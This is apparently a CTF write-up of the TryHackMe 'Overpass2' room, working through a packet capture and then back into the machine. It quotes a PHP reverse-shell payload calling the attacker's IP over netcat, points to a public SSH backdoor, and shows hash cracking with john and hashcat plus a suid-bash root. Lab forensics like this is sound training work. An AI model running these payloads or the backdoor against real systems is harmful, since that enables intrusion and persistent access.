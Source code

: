 # Overpass2 - Linux - Easy

## Task-1

### What was the URL of the page they used to upload a reverse shell?

Checking for a POST request would do the trick.

`/development/`

### What payload did the attacker use to gain access?

Checking the same POST request dumping all the ascii text from the request can make this spotting a bit easier.

```
)n)ºHEô
.@@VTÀ¨ªÀ¨ªºvPÃró:
'ö©ó
Â¦+5P,ÆPOST /development/upload.php HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.170.159/development/
Content-Type: multipart/form-data; boundary=---------------------------1809049028579987031515260006
Content-Length: 454
Connection: keep-alive
Upgrade-Insecure-Requests: 1

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"
Content-Type: application/x-php

<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="submit"

Upload File
-----------------------------1809049028579987031515260006--
```

### What password did the attacker use to privesc?

Checking the above payload for reverse shell we can know that port used is **4242**. Attacker IP is **192.168.170.145** and the machine that was attacked has IP **192.168.170.159**. Filtering packets using the following info in wireshark will make it bit easier to spot.

`ip.src==192.168.170.159 && ip.dst==192.168.170.145 && tcp.port==4242`

Just follow the first TCP stream now and we get the following:

`whenevernoteartinstant`

### How did the attacker establish persistence?

Checking the TCP stream we got in above it clearly mentions using git clone.

`git clone https://github.com/NinjaJc01/ssh-backdoor`

### Using the fasttrack wordlist, how many of the system passwords were crackable?

In the TCP stream we are following we also get to see the */etc/shadow* file contents. Just copy paste them into a file and run **john** on the file.

*Well the answer is **4**.*


## Task-2

### What's the default hash for the backdoor?

Just check the var in https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go

`bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`

### What's the hardcoded salt for the backdoor?

Simply check the function call with some static value

`1c362db832f3f864c8c2fe05f2002a05`

### What was the hash that the attacker used? - go back to the PCAP for this!

Can be found in the TCP stream for nc. Suplied to backdoor using *./backdoor -a <some_value>*

`6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`

### Crack the hash using rockyou and a cracking tool of your choice. What's the password?

Using hashcat here might help. It uses module 1710.so for this type of cracking where we have salted hash. we have both our hash and salt. Making a file hc with the following contents:

`6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05`

Here it is written in form of *hash*:*salt* as per needed by hashcat. Using the following command to run hashcat and crack it.

`hashcat -m 1710 -o ch htc rockyou.txt` 

where **htc** is the file with hash:salt and **ch** is the output file after cracking is done. Once done just check the **ch** file for cracked hash value.

`november16`


## Task-3

### The attacker defaced the website. What message did they leave as a heading? 

`H4ck3d by CooctusClan`

### Using the information you've found previously, hack your way back in!

Let's start with nmap scan for the machine.

`nmap 10.10.222.177 -oN nmap_scan`

It shows 3 ports are open: **22**, **80** and **2222**. Through our wireshark packet capture we know that 2222 is a ssh port being used by the **ssh-backdoor**. Let's just use that backdoor to get in.

`ssh james@10.10.222.117 -p 2222`

Using password `november16` the one we got from cracking that hash, we got ourselves in.

### User.txt

This is easy... once we get in: `cat /home/james/user.txt`



### Root.txt

Checked using find command for any suid binaries I could exploit it was in vain. Reading the hint on tryhackme gave a bit of direction. All I needed to do was `ls -al`

There it is `.suid_bash`. Executing it by giving *-p* we get ourselves root. Lastly checking the `/root/root.txt` file we get ourselves the final flag for the machine.




